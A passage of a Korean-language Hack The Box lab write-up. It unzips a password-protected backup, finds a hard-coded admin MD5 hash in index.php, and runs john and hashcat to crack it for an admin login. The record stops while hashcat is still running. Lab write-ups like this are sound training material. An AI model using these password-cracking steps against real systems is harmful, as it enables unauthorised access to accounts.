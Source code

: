 획득한 비밀번호로 압축을 성공적으로 해제 할 수 있다.
``` bash
┌──(root㉿9048af13b510)-[/htb]
└─# unzip backup.zip
Archive:  backup.zip
[backup.zip] index.php password:
  inflating: index.php
  inflating: style.css

┌──(root㉿9048af13b510)-[/htb]
└─# ls -al
total 1164
drwxr-xr-x 2 root root    4096 Feb 26 14:01 .
drwxr-xr-x 1 root root    4096 Feb 26 13:51 ..
-rw-r--r-- 1 root root    2594 Feb  3  2020 index.php
-rw-r--r-- 1 root root    3274 Feb  3  2020 style.css
```

압축 해제한 index.php의 내용을 보니 흥미롭게도 패스워드의 md5 값 비교 부분이 있다. 해당 md5 값을 만들어내는 평문을 찾아서 입력해주면 admin으로 로그인이 가능할 듯 하다.
``` php
┌──(root㉿9048af13b510)-[/htb]
└─# cat index.php
<!DOCTYPE html>
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
```

마찬가지로 john을 통해 md5값의 주인을 찾아보자. format=raw-md5 를 지정해주어야 한다.
``` bash
┌──(root㉿9048af13b510)-[/htb]
└─# echo 2cb42f8734ea607eefed3b70af13bbd3 > md5.txt

┌──(root㉿9048af13b510)-[/htb]
└─# john --format=raw-md5 md5.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 ASIMD 4x2])
Warning: no OpenMP support for this hash type, consider --fork=8
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
```

타 사용자의 글을 리서치 해보니 hashcat으로 가능한 듯 하여 동시에 실행해놓았다.
``` bash
┌──(root㉿9048af13b510)-[/htb]
└─# hashcat -a 0 -m 0 md5.txt

Session..........: hashcat
Status...........: Running
Hash.Mode........: 0 (MD5)
Hash.Target......: 2cb42f8734ea607eefed3b70af13bbd3
Time.Started.....: Mon Feb 26 14:17:33 2024 (1 min, 50 secs)
Time.Estimated...: Mon Feb 26 14:19:23 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: Pipe
```